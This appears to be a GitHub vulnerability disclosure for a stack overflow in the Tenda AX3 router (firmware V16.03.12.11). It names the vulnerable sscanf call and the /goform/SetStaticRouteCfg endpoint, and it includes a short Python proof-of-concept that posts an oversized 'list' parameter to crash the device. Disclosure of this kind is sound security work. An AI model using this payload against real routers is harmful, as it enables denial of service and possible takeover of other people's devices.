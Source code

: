 # Stack Overflow Vulnerability in Tenda Router AX3 ([V16.03.12.11]([AX3 升级软件](https://www.tenda.com.cn/material/show/103476)))

## Overview

A stack overflow vulnerability exists in the latest version V16.03.12.11 of the Tenda Router AX3. This vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf` call, where improper input parameters from the `/goform/SetStaticRouteCfg` page lead to data being concatenated onto the stack without any checks.

## Vulnerability Details

In the latest version `V16.03.12.11` of the Tenda Router AX3, a vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf`. 

When handling requests from the `/goform/SetStaticRouteCfg` page, the construction of the parameter list can influence the `save_staticroute_data` function, causing input to be concatenated onto the stack by the `sscanf` function without any checks, leading to a stack overflow. 

![image-20250203211326509](./assets/image-20250203211326509.png)

![image-20250203211413402](./assets/image-20250203211413402.png)

With appropriate parameter construction, this can result in denial of service (DoS) and remote code execution (RCE).

## POC

```
from pwn import *
import requests

url = "http://172.18.231.176/goform/SetStaticRouteCfg"

retaddr="bbbb"
payload = "1,2,3,"+"a"*0x674+p32(retaddr)
data = {
    "list": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

## AttackDemo



![image-20250203214025940](./assets/image-20250203214025940.png)
![image-20250203232553401](./assets/image-20250203232553401.png)
![image-20250203232906046](./assets/image-20250203232906046.png)
![image-20250203232818981](./assets/image-20250203232818981.png)
